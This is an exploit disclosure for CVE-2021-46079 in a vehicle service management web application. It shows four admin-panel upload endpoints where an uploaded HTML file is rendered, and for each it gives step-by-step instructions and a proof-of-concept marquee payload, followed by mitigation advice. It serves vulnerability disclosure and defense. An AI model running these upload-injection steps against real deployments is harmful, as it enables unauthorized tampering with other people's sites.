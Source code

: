 # CVE-2021-46079

### Exploit Title: Vehicle Service Management System - 'Multiple' File upload Leads to Html Injection
### Exploit Author: <a href="https://www.plsanu.com">P.L.Sanu</a>
### CVE: CVE-2021-46079
### CVSS: 7.2 HIGH
### References: 
- https://www.plsanu.com/vehicle-service-management-system-multiple-file-upload-leads-to-html-injection
- https://nvd.nist.gov/vuln/detail/CVE-2021-46079
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-46079

### Description:
An Unrestricted File Upload vulnerability exists in Sourcecodester Vehicle Service Management System 1.0. A remote attacker can upload malicious files leading to Html Injection.

### 1. Vehicle Service Management System - 'MyAccount' (/admin/?page=user)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to My Account section http://localhost/vehicle_service/admin/?page=user

### Payload:
```html
<!DOCTYPE html>
<html>
<head>
<title>HTML marquee Tag</title>
</head>
<body>
<marquee>HTML INJECTION</marquee>
</body>
</html>
```
3. Save the above html code For Ex:Html Injection.html
4. In My Account Section enter all the required details and browse the html file in Avatar.
5. Click on update button.
6. Open the avatar image in new tab.
7. Html Injection is Executed.

### 2. Vehicle Service Management System - 'User List' (/admin/?page=user/manage_user)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to User List section and click on Create New button.

### Payload:
```html
<!DOCTYPE html>
<html>
<head>
<title>HTML marquee Tag</title>
</head>
<body>
<marquee>HTML INJECTION</marquee>
</body>
</html>
```
3. Save the above html code For Ex:Html Injection.html
4. In Create New User Page enter all the required details and browse the html file in Avatar.
5. Click on Save button.
6. Open the avatar image in new tab.
7. Html Injection is Executed.

### 3. Vehicle Service Management System - 'Settings-System Logo' (/admin/?page=system_info)

### Payload:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Payload:
```html
<!DOCTYPE html>
<html>
<head>
<title>HTML marquee Tag</title>
</head>
<body>
<marquee>HTML INJECTION</marquee>
</body>
</html>
```
3. Save the above html code For Ex:Html Injection.html
4. In Settings Section enter all the required details and browse the html file in System Logo.
5. Click on update button.
6. Open the System Logo image in new tab.
7. Html Injection is Executed.

### 4. Vehicle Service Management System - 'Settings-Website Cover' (/admin/?page=system_info)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info

### Payload:
```html
<!DOCTYPE html>
<html>
<head>
<title>HTML marquee Tag</title>
</head>
<body>
<marquee>HTML INJECTION</marquee>
</body>
</html>
```
3. Save the above html code For Ex:Html Injection.html
4. In Settings Section enter all the required details and browse the html file in Website Cover.
5. Click on update button.
6. Open the Website Cover image in new tab.
7. Html Injection is Executed.

### Impact:
An attacker can able to upload malicious file in multiple endpoints it leads to Html Injection.

### Mitigation:
It is recommended to implement the following:

- Never accept a filename and its extension directly without having a white-list filter.
- If there is no need to have Unicode characters, it is highly recommended to only accept alpha-numeric characters and only one dot as an input for the file name and the extension.
- Limit the file size to a maximum value in order to prevent denial of service attacks.
- Uploaded directory should not have any "execute" permission.
- Don't rely on client-side validation only.

